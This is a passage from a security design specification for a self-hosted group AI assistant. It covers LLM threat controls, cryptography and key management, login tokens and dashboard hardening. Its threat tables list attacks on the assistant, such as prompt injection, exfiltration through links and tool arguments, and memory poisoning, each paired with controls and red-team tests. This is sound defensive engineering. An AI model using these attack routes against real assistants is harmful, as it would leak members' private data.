| IA-6 | **Cross-group bridging** through a shared person | I4; portability is explicit per item |
| IA-7 | **Aggregation**: individually normal facts imply a sensitive one | `join` takes max sensitivity; consolidation never widens readers; guard judge prompt covers sensitive inference |
| IA-8 | **Explanation leakage** ("why did you say that?") | Explanations are rendered for the asker's audience; private influence is shown only as "based on information I can't share" |
| IA-9 | **Partial-output leakage** (streamed or edited messages) | No group-visible streaming before guard pass; never send-then-edit to redact |
| IA-10 | **Anonymous polls** | Votes in anonymous polls are labeled with readers = voter only; aggregates only after the deadline or quorum |
| IA-11 | **Metadata in dashboards and digests** (counts, "Bob has 3 private items") | Counts of other members' private data are never shown |

#### 3.6.5 Excessive agency
- **Small capability surface by design:** no code execution, no file system, no money (00 §6.2), no messaging outsiders, no web browsing (web search optional, off by default).
- Every tool declares `capability`, `effect` and `risk` (spine §7.4). `high` risk always needs confirmation (requester, or owner/guardian as policy says); `medium` needs it when S10 applies or the target is another member's entity. MCP/plugin tools default to `high` unless the host lowers it at approval.
- `SystemAuthority` runs only constitution-pre-authorized actions, listed in the dashboard. Max agent steps and per-turn tool-call caps live in `05`.

#### 3.6.6 System prompt leakage
Principle: **prompts contain no secrets.**
- The charter and tool catalog are open source.
- The constitution is group-visible.
- The turn layer contains only audience-readable data and audience-safe constraint text.

"Leaking the system prompt" therefore reveals nothing the requester may not see. Requirements:
- no credentials, internal URLs or other members' identifiers beyond the audience in any prompt layer;
- canary strings placed in sealed private items must never appear in outbound text or the prompt for a different audience (`redteam.discretion.canary`).

#### 3.6.7 Denial of wallet (unbounded consumption)

| Layer | Default | Owner |
|---|---|---|
| Pre-identity gate (S4): unknown DMs and unbound chats get a template, no model call; ≤ 1 template per chat per day | on | 06 |
| Platform bots never trigger `respond`; max 3 consecutive Village replies without a human message in a conversation | on | 05 |
| Per-member respond turns | 20 / 10 min, 200 / day | 05 |
| Per-group budgets: daily/monthly with degrade ladder | spine §8 | 05 |
| Interjection route calls | ≤ 30 / group / hour | 05, 07 |
| Input caps: message 8 k chars; image 20 MB / 40 MP; PDF 50 MB / 100 pages; audio 10 min; email 10 MB, 50 per day per group | — | 06, 08 |
| Media minutes per group per day (API transcription) | 60 | 06 |
| Admin DM at 80% of budget; budget events in audit | on | 05 |

#### 3.6.8 OWASP LLM Top 10 (2025) and Agentic Top 10 mapping
The current official LLM list on genai.owasp.org is the **2025** edition (checked 2026-11-01). The OWASP **Top 10 for Agentic Applications** (ASI01–ASI10, Dec 2025) is applied alongside it.

| ID | Threat | OWASP | Controls (§) | Owner | Test |
|---|---|---|---|---|---|
| L-01 | Direct prompt injection | LLM01, ASI01 | 3.6.1–3.6.2, I1, I3 | 03, 05 | `redteam.discretion.direct`, `redteam.authority` |
| L-02 | Indirect injection (email, forward, doc, MCP, memory) | LLM01, ASI01, ASI06 | 3.6.2, S10 | 03, 04, 05 | `redteam.injection.indirect` |
| L-03 | Exfiltration via links, images, unfurls | LLM02, LLM05 | 3.6.3, S5 | 03, 06 | `redteam.exfil.url` |
| L-04 | Exfiltration via tool arguments (MCP, web search) | LLM02, ASI02 | 3.14 egress check, S10 | 03, 10 | `redteam.exfil.tool` |
| L-05 | Cross-member inference | LLM02 | 3.6.4 | 03 | `redteam.inference.*` |
| L-06 | Excessive agency / tool misuse / privilege abuse | LLM06, ASI02, ASI03 | 3.6.5, I3 | 03, 05 | `redteam.authority` |
| L-07 | System prompt leakage | LLM07 | 3.6.6 | 05 | `redteam.discretion.canary` |
| L-08 | Memory and context poisoning | LLM04, ASI06 | T-T03 | 04 | `redteam.poisoning` |
| L-09 | Vector/embedding weaknesses (inversion, cross-tenant hits) | LLM08 | Local embeddings by default; encrypted at rest; label filter before rank; per-group partition | 04 | `prop.retrieval.ifc` |
| L-10 | Improper output handling (markup injection, model text into SQL/paths) | LLM05 | Renderer escaping per markup (§3.12); zod on structured outputs; model output never reaches SQL, shell, paths or HTML | 05, 06 | `fuzz.render.*` |
| L-11 | Misinformation; phishing amplification; human-agent trust exploitation | LLM09, ASI09 | Citations to source messages, confidence → proposals, provenance on untrusted links, charter disclaimers | 04, 05 | `redteam.trust` |
| L-12 | Unbounded consumption | LLM10 | 3.6.7 | 05 | `redteam.wallet` |
| L-13 | Model/tool supply chain | LLM03, ASI04 | Pinned model IDs; HF model revisions + SHA-256 for local ONNX/whisper; MCP definition pinning | 05, 10, 08 | `sec.supply.model-pins` |
| L-14 | Cascading failures / rogue loops (bot-to-bot) | ASI08, ASI10 | Bot gate; consecutive-reply cap; proactivity budget | 05, 07 | `sec.gate.bots` |
| L-15 | Insecure inter-agent communication (members' agents via MCP) | ASI07 | PAT = member authority; audience = that member; responses guarded | 10 | `sec.mcp.audience` |
| L-16 | Unexpected code execution | ASI05 | No code tools in core; plugins host-approved and isolated | 10 | `sec.plugin.escape` |

### 3.7 Cryptography & key management

#### 3.7.1 Library policy (per use)

| Use | Primitive | Library | Justification |
|---|---|---|---|
| Keys, nonces, tokens | OS CSPRNG (`crypto.randomBytes`) | Node | Only source of randomness for security. `Math.random` is lint-banned everywhere outside tests |
| Purpose-key derivation | HKDF-SHA256 (RFC 5869), `crypto.hkdfSync` | Node | Standard KDF for high-entropy inputs |
| Passphrase slot | scrypt N=2^17, r=8, p=1, `maxmem` 256 MiB | Node | Stable since Node 10. Node's `crypto.argon2` only arrived in 24.7.0; slots record `kdf.alg`, so Argon2id can be added later |
| Key wrapping (keyring slots, blob DEKs, backup DEKs, vault) | AES-256-GCM, 96-bit random nonce, AAD binds context | Node | Hardware-accelerated (incl. Pi 5 ARMv8 CE). Wraps per KEK stay ≪ 2^32 (random-nonce bound): tracked via keyring `wrapCount` and blob rows per `kekGen`; doctor advises `rotate-data` at 2^30 |
| Blob bodies and backup bodies | `crypto_secretstream_xchacha20poly1305`, 64 KiB chunks | `libsodium-wrappers` (WASM) | Vetted streaming AEAD with truncation and reorder protection. No native build. Spike M1-T80 measures throughput; fallback `sodium-native` behind the same interface |
| Magic-link signature, CSRF token | HMAC-SHA256 | Node | Standard |
| Token-at-rest digests | SHA-256 of 256-bit secrets | Node | High-entropy secrets need no slow hash |
| Compares | `crypto.timingSafeEqual` over two SHA-256 digests (equal length by construction) | Node | Constant time |
| DB encryption | SQLCipher v4 scheme via SQLite3MultipleCiphers | `better-sqlite3-multiple-ciphers` | ADR-005 |
| Blob addresses | HMAC-SHA256(blob-id key, plaintext) | Node | SD-06 |
| Audit chain | SHA-256 | Node | Tamper evidence |
| Direct TLS mode | TLS 1.2+ (1.3 preferred) via `node:tls` | Node | — |
| Release signing | Sigstore keyless (cosign), npm provenance | CI tooling | No long-lived keys |

**Banned (lint plus review):** custom constructions; MD5/SHA-1 for security; unauthenticated modes (ECB, CTR or CBC without MAC); JWT/JOSE libraries (avoids algorithm confusion; we need none); deriving keys from passwords without a slot KDF; `===` on secrets.

#### 3.7.2 Key hierarchy


- HKDF parameters: `salt = UTF-8(instanceId)`, `info = "comvivo/v1/<purpose>[/epoch=<e>]"`, length 32. Registered purposes: `db`, `blob-kek`, `backup-kek`, `token-mac`, `vault`, `field`, `store/<adapter>` (§3.10) and `fts-token` (used only by `02` §3.6.1's FTS fallback mode).
- The `sessionEpoch` lives in the encrypted DB settings, so a file-level edit cannot roll it back.
- **Static keys** (blob-id key) are random, stored wrapped by the current RDK in the keyring, and rewrapped on data rotation, so blob addresses stay stable across generations.

#### 3.7.3 Master-key generation and storage options
Generation: 32 bytes from `crypto.randomBytes` during `village init`. The wizard uses `keyfile` by default (to keep the 5-minute target); `village init --key-store <mode>` selects another mode (`09` §3.11.3):

| Mode | Config | Protects against | Does **not** protect against | Best for |
|---|---|---|---|---|
| `keyfile` (default) | `data/keys/master.key`, 0600, owned by the service user; dir 0700 | Copies of DB, blobs or backups taken without the key directory; other local users | Theft of the whole disk or SD card (key sits beside the data) unless the disk has FDE | Laptops/VPS with full-disk encryption |
| `keychain` | `@napi-rs/keyring` (optional dependency, loaded lazily): macOS Keychain, Windows Credential Manager, Linux Secret Service | Disk theft while the user is logged out (OS-dependent) | Malware running as the user | Desktop installs. Not for headless Linux (needs D-Bus and an unlocked keyring) |
| `file` | `COMVIVO_MASTER_KEY_FILE=/run/secrets/village_mk` | Keeps the key out of `docker inspect` and the image | Root on the host | Docker secrets; **systemd-creds** with TPM2 (`LoadCredentialEncrypted=` → `%d/village_mk`); Kubernetes |
| `env` | `COMVIVO_MASTER_KEY` (base64url) | Disk theft if the env store is elsewhere | `docker inspect`, `/proc/*/environ` for the same user; CI logs | Last resort; doctor warns |
| `passphrase` | No MK slot; scrypt slot; prompt on TTY or `COMVIVO_PASSPHRASE_FILE` | Disk theft (no key at rest) | Unattended reboot (needs a human or `systemd-ask-password`) | High-assurance hosts |

Rules:
- The process reads the MK once, then **deletes it from `process.env`** and zeroes intermediate buffers (best effort).
- Child processes never inherit it (S9).
- Keyfile mode bits are checked at boot. Group- or world-readable means the server **refuses to start** (exit 78) unless `--insecure-permissions` is passed (ssh-style). On Windows the check is skipped with a warning.

#### 3.7.4 Keyring file (`data/keys/keyring.json`, 0600)
```json
{
  "format": "comvivo-keyring/1",
  "instanceId": "ins_01j…",
  "current": 2,
  "wrapCount": 1844,
  "generations": [
    { "gen": 1, "status": "retired", "createdAt": "2026-03-01T10:00:00Z",
      "slots": [ { "id": "mk2", "kind": "master", "wrap": { "…": "…" } }, { "id": "rk1", "kind": "recovery", "wrap": { "…": "…" } } ] },
    { "gen": 2, "status": "active", "createdAt": "2026-10-01T10:00:00Z",
      "slots": [
        { "id": "mk2", "kind": "master",     "wrap": { "alg": "A256GCM", "nonce": "…", "ct": "…" } },
        { "id": "rk1", "kind": "recovery",   "kdf": { "alg": "hkdf-sha256", "info": "comvivo/v1/rk-slot" }, "wrap": { "…": "…" } },
        { "id": "pp1", "kind": "passphrase", "kdf": { "alg": "scrypt", "N": 131072, "r": 8, "p": 1, "salt": "…" }, "wrap": { "…": "…" } } ] } ],
  "static": { "blobId": { "gen": 2, "wrap": { "alg": "A256GCM", "nonce": "…", "ct": "…" } } }
}
```
- Every wrap uses `AAD = "comvivo-keyring/1|<instanceId>|gen=<g>|slot=<id>|kind=<kind>"`, so slots cannot be swapped between generations or instances.
- Writes are atomic: write `keyring.json.tmp`, fsync, rename, fsync the directory. The previous file is kept as `keyring.json.prev` until the next successful boot.

#### 3.7.5 Unlock at boot
1. Resolve the unlock source in order: `COMVIVO_MASTER_KEY_FILE` → `COMVIVO_MASTER_KEY` → configured `keychain` → `keyfile` → `passphrase` (TTY or `COMVIVO_PASSPHRASE_FILE`).
2. Load the keyring, try matching slots for `current`, unwrap the RDK. On failure exit **78** with a doctor hint. **Never start unencrypted as a fallback.**
3. Derive purpose keys and open the DB with the raw key. Verify the DB header is not plaintext `SQLite format 3\0` when `encryptAtRest:true`.
4. Read `sessionEpoch` and derive the token MAC key.
5. Log `keys.unlocked {source, gen}` (no key material) and record an audit event.

#### 3.7.6 Recovery key
- **Format:** `VRK1-` plus 56 Crockford-base32 characters: 52 encode 256 bits (top 4 bits zero) and 4 are a checksum (first 20 bits of SHA-256(`"VRK1"‖key`)). Grouped in fours: `VRK1-7M4Q-…-K2PX` (14 groups). Decoding is case-insensitive, maps `I/L→1` and `O→0`, and ignores spaces and hyphens.
- **Ceremony (`village init`, `village keys rotate-recovery`):**
  1. Print the key with "Write this down or print it. It is the only way to restore your data if this machine or its key file is lost. Village cannot show it again."
  2. The user retypes groups 3 and 11.
  3. Optional `--recovery-key-out <file>` (`09` §3.11.3; required in non-interactive mode) with a warning; never into `dataDir`.
- **Slot key:** `HKDF(RK, salt=instanceId, info="comvivo/v1/rk-slot")`.
- `village keys verify-recovery` checks a typed key against the slot without changing anything; doctor nudges every 180 days.

#### 3.7.7 Rotation procedures (all CLI-only, never exposed over HTTP)

| Command | When | Steps | Online? | Cost |
|---|---|---|---|---|
| `village keys rotate-master` | Keyfile copied somewhere, staff change, routine | New MK → add an `mk` slot wrapping each retained generation's RDK → write keyring atomically → store the new MK → remove the old slot | Yes | ms |
| `village keys rotate-data` | Suspected DB/blob key exposure; annual hygiene | 1) create gen g+1 and a `rotation.json` journal; 2) maintenance mode (actors paused, outbox held); 3) `PRAGMA rekey` with the new raw key (SQLite3MC ≥ 2.4.0 supports WAL; otherwise switch to `DELETE` journal for the rekey); 4) resume; 5) rewrap blob DEKs in resumable batches (`kekGen` per row); 6) rewrap static keys and the vault; 7) mark g `retired` | Pause for the rekey only | O(DB size) for the rekey; blob bodies untouched (use `--reencrypt-blobs` if DEKs may be exposed) |
| `village keys rotate-recovery` | RK lost or exposed | New RK ceremony → replace the `recovery` slot in every retained generation | Yes | ms |
| `village backup rewrap [--all]` | After RK rotation | Rewrite `VBK1` headers only (DEK unchanged); old backups become unopenable with the old RK | Yes | Header-only |
| `village keys rotate-sessions` | Session theft suspected | `sessionEpoch++` → all sessions, magic links, pairing codes and CSRF tokens invalid. MCP tokens (PATs) are separate: `village mcp token revoke --all` (`10` §3.7.3) | Yes | ms |
| `village keys purge-retired` | After all blobs are rewrapped and old backups pruned or rewrapped | Delete retired generations | Yes | ms |

"Online" operations run through the Control API when the server is running (`09` D-04); the CLI command names and flags are listed in `09` §3.11.3.

Compromise playbook (host-facing doc): `rotate-master` → `rotate-data --reencrypt-blobs` → `rotate-recovery` → `backup rewrap --all` → `rotate-sessions` → `mcp token revoke --all` → rotate platform and provider tokens at their consoles.

#### 3.7.8 Loss consequences

| Lost | Have | Outcome |
|---|---|---|
| MK | RK | `village keys recover` unwraps via the RK slot and establishes a new MK slot. No data loss |
| MK and RK | Passphrase slot | Unlock via passphrase, then create a new MK and RK |
| MK, RK and passphrase | — | **All encrypted data is unrecoverable, by design.** Docs say so in bold at init |
| Machine | Backup + RK | `village restore <file.vbak> --recovery-key-file <path>` (or the TTY prompt; never as a flag value) on a new host |
| Machine | Backup + MK only | Restore works (backup KEK slot) only if the keyring snapshot in the backup has an `mk` slot. It does by default |
| RK exposed | — | Rotate the RK and rewrap backup headers. Old backup copies elsewhere remain openable with the exposed RK, so delete them |

#### 3.7.9 SQLCipher parameters (implemented in `02`)
- Open with `PRAGMA cipher='sqlcipher'; PRAGMA legacy=4; PRAGMA key="x'<64 hex>'"`. The raw key skips PBKDF2.
- Hex is validated against `^[0-9a-f]{64}$` before interpolation, and the statement is never logged.
- `PRAGMA temp_store=MEMORY` so temp tables never touch disk in plaintext.
- FTS5 and sqlite-vec tables live in the same file. The M1 spike (M1-T80) proves all three work together, that WAL rekey works, and how `VACUUM INTO`/the online backup API behave with encryption.
- **ADR-005 fallback** (no SQLCipher): sensitive columns are envelope-encrypted with AES-256-GCM under `HKDF(RDK,"comvivo/v1/field")`, with AAD = table|column|rowId. Doctor reports "partial encryption".

#### 3.7.10 Blob encryption
- **Per blob:** a random 32-byte DEK; the body is a secretstream with the header in the file.
  - First-chunk AD = `"comvivo/blob/v1|" + blobAddr + "|" + mime`.
  - Last chunk is `TAG_FINAL`, so truncation is detected.
- **File:** `VBL1` magic (4 bytes) ‖ secretstream header (24 bytes) ‖ chunks (64 KiB + 17-byte ABYTES each).
- **DB row (`02`):** `blobAddr`, `dekWrapped` (AES-256-GCM under the blob KEK, AAD = `"comvivo/blob-dek/v1|"+blobAddr+"|gen="+g`), `kekGen`, `label`, `size`, `mime`.
- **Deleting** the row's `dekWrapped` crypto-shreds the blob even if file deletion fails. Retention sweeps delete both (`02`).
- **Dedup** works within an instance via the keyed address. Two blobs with different labels and the same content share bytes but have separate rows and labels (`02` resolves label semantics).

#### 3.7.11 Backup envelope (`VBK1`; inner archive layout owned by `02`)
```
"VBK1" | u32 headerLen | header (canonical JSON) | secretstream body (tar stream from 02)
header = { format, instanceId, createdAt, dataGen,
           slots: [ {kind:"backup-kek", gen, nonce, ct}, {kind:"recovery", rkId, nonce, ct},
                    {kind:"passphrase", kdf:{alg:"scrypt",N,r,p,salt}, nonce, ct}? ],   // each wraps the per-backup DEK; passphrase slot optional (A10)
           keyringSnapshot: { generations: [ { gen, slots: [master, recovery] } ],   // RDK_g wrapped by MK and RK only
                              static: { blobId } },                              // blob-id key wrapped by RDK_g: restored blob addresses stay stable
           body: { chunkSize: 65536 } }
first-chunk AD = SHA-256(header bytes)    // any header edit breaks decryption
```
- `keyringSnapshot.static.blobId` is **required**: without it a restore could not recompute `HMAC-SHA256(blob-id key, …)` addresses (SD-06, `02` D14). Restoring with the recovery key alone unwraps `RDK_g`, then `static.blobId` (A10).
- The body contains the encrypted DB snapshot, encrypted blob files as-is, the encrypted vault, `secrets.enc` if present (A29) and a manifest. **No plaintext ever touches disk during backup or restore.**
- Archives use the `.vbak` extension with the `VBK1` magic. Filenames carry no sensitive metadata (pattern owned by `02` §3.14 and `12` §3.9, e.g. `village-<first 6 chars of instanceId>-<UTC timestamp>.vbak`).
- Safe to copy to cloud storage. Docs still recommend the host's own storage.

#### 3.7.12 Tokens and codes

| Token | Format | Entropy | TTL | Stored as | Binding / use rules |
|---|---|---|---|---|---|
| Pending-login secret | cookie `__Host-village_pending` (HTTPS) / `village_pending` (loopback): `vlp_<base64url 32B>` | 256 b | 10 min | SHA-256 | Browser half of pairing (S8) |
| Pairing code | `XXXX-XXXX` Crockford (shown in browser, member sends it to the bot in a DM) | 40 b | 10 min | SHA-256 | Single use. ≤ 5 failed `/pair` attempts per identity per 15 min (`09` §3.7 `auth.pairing.redeem`). The bot confirms with an approve button bound to member + pending id |
| Magic link (loopback; or HTTPS with explicit opt-in, A9) | `…/auth/magic#vml1.<b64u(payload)>.<b64u(HMAC)>`; payload `{jti:128b, sub:personId, aud:instanceId, purpose:"login", exp}` | 128 b jti + MAC | 10 min (configurable down to 2) | jti row (consumed_at) | Token in the **URL fragment** (never in logs or Referer). GET shows an interstitial and JS POSTs the token, so unfurlers and scanners cannot consume it. Single use via atomic `UPDATE … WHERE consumed_at IS NULL AND exp > now`. Issued only when `dashboard.auth.magicLinks` allows it for the current exposure mode (§3.8.1) |
| Session | cookie `__Host-village_session` (HTTPS, base path `/`) / `__Secure-village_session` (HTTPS under a sub-path) / `village_session` (plain HTTP): `vs1_<b64u 32B>` | 256 b | Idle 12 h, absolute 7 d (rotated every 24 h) | SHA-256 + metadata (person, createdAt, lastSeen, UA summary, IP /24 or /48, `authTime`, epoch) | HttpOnly, SameSite=Strict, Path=`<basePath>`, Secure in HTTPS modes. Rotated on login and step-up |
| CSRF | `HMAC(tokenMac, "csrf"‖sessionDigest)` base64url, header `X-Village-CSRF` | 256 b | Session | Derived (nothing stored) | Required on all non-GET |
| MCP token (PAT) | `vmcp_<26-char mtk_ id suffix>_<43 b64url>` (**format, entropy and hashing owned here**; scopes `read`/`ask`/`write`/`sensitive`, TTLs, issuance UX and the `/mcp` endpoint owned by `10` §3.7) | 256 b | Expiry required; default 90 d, max 365 d | SHA-256 + scopes + expiry + lastUsed | Shown once. Bound to member + group. Revocable. Every use audited (aggregated per hour) |
| ICS feed | `/ics/v1/vics_<43 b64url>.ics` (route and semantics owned by `07` §3.1.5) | 256 b | Until revoked; revoked when the member leaves | SHA-256 | Per member. Content IFC-filtered (T-I12). Link delivered only in the member's DM |
| Host claim code | typed `VLG-XXXX-XXXX` (8 Crockford chars) + link token `c_<22 chars>` for deep links; printed on the console and shown by `village init` (`09` §3.9.4) | 40 b typed (attempt-limited) / 128 b link | 30 min, regenerated at boot until claimed | SHA-256 | Single use; burned after 10 failed attempts (and ≤ 5 failed attempts per chat per hour, `06` §3.20.1). Group claim codes use the same shapes and 30-min TTL. **Link codes** (`06` §3.18.1, the format owner): typed `XXXX-XXXX` (40 b) + deep-link token `lnk_<22 base64url>` (128 b), 10 min, single use |
| Control token | `vctl_<b64u 32B>` in `dataDir/keys/control.token` (0600) | 256 b | Until rotated (rotated on restore) | File only; constant-time compare | CLI → `/control/v1` bearer (`09` D-04); never accepted with a session cookie |
| Plugin IPC | per-process random, never persisted | 256 b | Process lifetime | — | Authenticates the broker channel |

**Login flows** (UX in `09`):
- **Pairing (default in every mode; the only browser login outside loopback unless HTTPS magic links are enabled).**
  1. The browser gets a pending secret and a code.
  2. The member DMs `/pair CODE`, or uses a deep link (`t.me/<bot>?start=pair_CODE`).
  3. The bot replies: "Log in to the Village dashboard on *Chrome · macOS* (started 14:02)? Only approve if you're looking at that screen right now." [Approve] [Deny]
  4. On approve, the browser holding the pending secret receives the session.
  An attacker can't trigger approval prompts without the victim typing the attacker's code, which blunts approve-fatigue.
- **Magic link (loopback convenience; HTTPS only with explicit opt-in).** `/dashboard` in a DM sends a fragment link that the browser exchanges by POST. It is issued only on loopback (mode L), or in modes P/T when the host set `dashboard.auth.magicLinks: https`. It is never issued in mode I or on the HA ingress listener.
- **Home Assistant ingress (mode H).** The `X-Remote-User-*` headers only identify an HA user. That user is linked once to a Village person via a pairing code approved in the bot DM (or, only while the instance is unclaimed, the console host claim code); headers alone never authenticate (`09` §3.9.10).

**Session lifecycle:**
- **Revocation triggers:** logout, "log out everywhere", member `left`/removed, role downgrade, identity unlink, `rotate-sessions`.
- **New-login notification:** a DM to every linked identity of the person.
- **Logout** sends `Clear-Site-Data: "cookies", "storage"`.

#### 3.7.13 Randomness, comparison and memory hygiene
- All secrets come from `crypto.randomBytes`. Base64url without padding, Crockford base32 for human-typed values.
- `secureEqual(a, b)` = `timingSafeEqual(sha256(a), sha256(b))`. Lint bans `===`/`!==` on identifiers matching `/token|secret|code|hash|mac/i` outside `shared/crypto`.
- Secrets travel as `SecretString` / `SecretKey` (§4): `toString`, `toJSON` and `util.inspect` return `[REDACTED]`. Key buffers are zeroed on lock/shutdown (best effort; the GC may have copied them, as documented).
- No security decision depends on wall-clock comparisons finer than 1 s. Token `exp` allows 60 s skew; doctor checks NTP skew.

### 3.8 Dashboard & API hardening (requirements; implementation in `09`)

#### 3.8.1 Exposure modes (validated at boot; invalid combos exit 78)

| Mode | Config | Cookies | Login | Notes |
|---|---|---|---|---|
| **L** loopback (default) | `bind: 127.0.0.1` (and `::1`) | `village_*`, SameSite=Strict, no Secure | Pairing (default) or magic link (`magicLinks: auto`) | No network exposure |
| **P** behind TLS proxy or tunnel | `bind: 127.0.0.1`, `publicUrl: https://…`, `trustProxy: ["127.0.0.1/32"]` | `__Host-` (or `__Secure-` under a sub-path) + Secure | Pairing (S8); magic link only if `dashboard.auth.magicLinks: https` | HSTS on; `X-Forwarded-*` honored only from `trustProxy` |
| **T** direct TLS | `bind: 0.0.0.0`, `tls: {certFile, keyFile}` | `__Host-` + Secure | Pairing; magic link only if `magicLinks: https` | TLS 1.2+; cert hot-reload |
| **I** insecure LAN | `bind: <LAN IP>`, `allowInsecureLan: true` | No Secure | Pairing only (never magic links) | Startup banner, doctor warning, dashboard banner. For trusted home LANs only |
| **H** Home Assistant ingress | `dashboard.ingress: {enabled: true, port: 8099, allowFrom: ["172.30.32.2"]}`; the main listener stays on loopback (`09` §3.9.10, `12` §3.5) | None (server-side header session keyed by HA user) | HA user linked once via a pairing code approved in the bot DM (or, while unclaimed, the host claim code); headers alone never authenticate | Socket-level source check; `frame-ancestors 'self'` on this listener only (§3.8.4) |

#### 3.8.2 Remote access guidance (docs; ranked)
1. **Tailscale Serve** (recommended).
   - Keep `bind: 127.0.0.1` and run `tailscale serve --bg 7777`.
   - Set `publicUrl` to the `https://<machine>.<tailnet>.ts.net` URL and add it to `allowedHosts`.
   - WireGuard is end to end, and Tailscale provisions TLS. **Never use Tailscale Funnel for the dashboard** (that is public internet).
2. **SSH tunnel:** `ssh -L 7777:127.0.0.1:7777 host`. Zero config.
3. **Cloudflare Tunnel + Cloudflare Access** (require an Access policy). Disclose: **Cloudflare terminates TLS and can see dashboard traffic.**
4. **Reverse proxy with TLS** (Caddy automatic HTTPS; nginx/Traefik). Set `trustProxy`, keep Village bound to loopback, and add IP allowlisting or a VPN if possible.

#### 3.8.3 Host and Origin validation (DNS rebinding)
- **Host check (every request):** `Host` must be in `allowedHosts` = {`localhost`, `127.0.0.1`, `[::1]`, host of `publicUrl`, `dashboard.allowedHosts`} with the configured port; otherwise `421 Misdirected Request`.
- **Origin check (all non-GET/HEAD):** `Origin` must equal the canonical origin and `Sec-Fetch-Site` must be `same-origin` or absent; otherwise `403`. The MCP endpoint applies the same rule (the MCP spec requires `Origin` validation with `403`).

#### 3.8.4 Security headers
| Header | Value |
|---|---|
| `Content-Security-Policy` (HTML) | `default-src 'none'; script-src 'nonce-{N}' 'strict-dynamic'; style-src 'self' 'nonce-{N}'; img-src 'self' data: blob:; font-src 'self'; connect-src 'self'; manifest-src 'self'; worker-src 'self'; media-src 'self' blob:; frame-src 'none'; frame-ancestors 'none'; base-uri 'none'; form-action 'self'; object-src 'none'; require-trusted-types-for 'script'; trusted-types 'none'` (+ `upgrade-insecure-requests` in P/T) |
| `Content-Security-Policy` (API/ICS) | `default-src 'none'; frame-ancestors 'none'` |
| `Strict-Transport-Security` | `max-age=31536000` (P/T only; no preload by default) |
| `X-Content-Type-Options` | `nosniff` |
| `Referrer-Policy` | `no-referrer` |
| `X-Frame-Options` | `DENY` |
| `Cross-Origin-Opener-Policy` / `-Resource-Policy` / `-Embedder-Policy` | `same-origin` / `same-origin` / `require-corp` |
| `Permissions-Policy` | `camera=(), microphone=(), geolocation=(), payment=(), usb=(), browsing-topics=()` |
| `Cache-Control` (API, auth pages) | `no-store` |

**HA ingress exception (mode H only):** responses on the ingress listener use `frame-ancestors 'self'` and `X-Frame-Options: SAMEORIGIN`, because the dashboard is framed same-origin by the Supervisor proxy (`09` §3.10.11). Every other listener keeps `'none'`/`DENY`.

**Nonce plumbing:**
- 128-bit nonce per HTML response, using Hono `secureHeaders` with `NONCE`.
- The server injects the nonce into the built `index.html` (Vite `html.cspNonce` placeholder; verify in M9).
- Libraries that inject `<style>` (Radix `react-remove-scroll` via `get-nonce`) get the nonce through `setNonce()`.
- Any relaxation (e.g. `style-src 'unsafe-inline'`) needs an ADR.
- Trusted Types: since `dangerouslySetInnerHTML` is lint-banned, `'none'` should hold. A violation report endpoint (`/api/csp-report`, rate-limited, logs only directive and blocked URI) feeds Playwright tests that fail on any violation.

#### 3.8.5 CORS
None by default: no CORS middleware and no `Access-Control-*` headers. The JSON API rejects `Content-Type` other than `application/json` on mutations, so cross-site requests always need a preflight that fails.

#### 3.8.6 CSRF
Four layers: (1) SameSite=Strict; (2) Origin/`Sec-Fetch-Site` check (S7); (3) `X-Village-CSRF` synchronizer token (§3.7.12), verified with `secureEqual`; (4) JSON-only bodies.

#### 3.8.7 Admin step-up (re-auth)
Sensitive actions need `session.elevatedUntil > now`. The browser requests step-up for an action class; the bot DMs "Confirm: *Export all group data* from Chrome · macOS?" [Confirm]; on confirm the session is elevated for 10 min and its ID rotated.

**Requires step-up** (the same list as `09` §3.9.8; routes marked `S+R` there): group or self export; member removal or role change; constitution ratification via the dashboard; privacy settings (retention, providers, local-only off) and creating an ICS feed that includes private events; MCP token creation; identity unlink; "forget everything about me"; channel config changes; backup download or restore; plugin enable or permission approval (host); revoking other people's sessions (host); sensitive instance settings (`privacy.*`, `models.*`, `channels.*`). Key operations are CLI-only. The rule is `authTime` within 10 minutes (`dashboard.sessions.recentAuthMinutes`).

#### 3.8.8 Rate limits and brute force (in-process token buckets; reset on restart is acceptable)

Bucket names and exact values are normative in `09` §3.7; this table restates the security-relevant ones and must match it.

| Endpoint / event | Limit (`09` class) |
|---|---|
| Unauthenticated requests per IP | 300 / min (`unauth`) |
| Login start (pairing create), magic-link exchange and host claim per IP | 10 / min, burst 5 (`auth.exchange`) |
| `/pair CODE` per platform identity | 5 failed / 15 min (`auth.pairing.redeem`; bot answers generically) |
| Magic-link issue and step-up challenges per person | 5 / 15 min (`auth.issue`) |
| Claim code redemption | 10 failed attempts per code, then the code is burned (`claim.redeem`) |
| Authenticated API per session | reads 600 / min; mutations 120 / min (`read` / `write`) |
| Step-up requests per session | 5 / h (`auth.stepup`) |
| MCP token requests | per `10` §3.7.6: reads 60/min, writes 20/min, `ask` 10/h per token, 2× per member across tokens; 20 failed auths/min per IP |
| ICS feed fetches | 60 / h per token (`feed`) |

Responses use `429` + `Retry-After`. There is no permanent account lockout (a lockout is itself a DoS lever); after 10 failed attempts against one person in 1 h, that person is notified.

#### 3.8.9 Request hygiene
Body limits JSON 1 MiB, uploads 25 MiB (`09` may lower); zod on every route; generic error bodies with a correlation ID, never stack traces; no API ETags; no `Server` header. Request logs carry method, route template, status and latency only, never query strings.

#### 3.8.10 Process hardening
- Never run as root. The image runs as non-root UID/GID `1000:1000` by default (`12` P7); compose maps `COMVIVO_UID`/`COMVIVO_GID` to the invoking host user (`09` §3.11.4); root-start platforms drop to `PUID`/`PGID` with all capabilities cleared before Node starts.
- Bare metal: the systemd unit uses `NoNewPrivileges=yes`, `ProtectSystem=strict`, `ProtectHome=yes`, `PrivateTmp=yes`, `ReadWritePaths=<dataDir>`, `CapabilityBoundingSet=` and `RestrictAddressFamilies=AF_INET AF_INET6 AF_UNIX` (`12` ships it).
- Node diagnostic reports (`process.report`) include environment variables, so they stay disabled. Hosts are told not to enable `--report-on-fatalerror`.

#### 3.8.11 ICS feed listener
Optional `ics.bind`/`ics.port` creates a separate minimal listener serving only `GET /ics/v1/<token>.ics` (`07` §3.1.5; no cookies, no HTML, strict headers, rate limits), so calendar services can reach feeds through a narrow tunnel rule while the dashboard stays private.

### 3.9 SSRF and egress control (`safeFetch`, `@comvivo/shared/net`)

**Scope:** ICS import, remote MCP, plugin broker fetches, web-search tool, OAuth discovery for MCP, update check, link-preview fetching (not planned for 1.0), webhooks (none in 1.0). Model-provider SDKs and chat-platform SDKs use fixed, host-configured endpoints and are exempt. Their base URLs are validated at config load and pass the Local-only check (S12).

Rules:
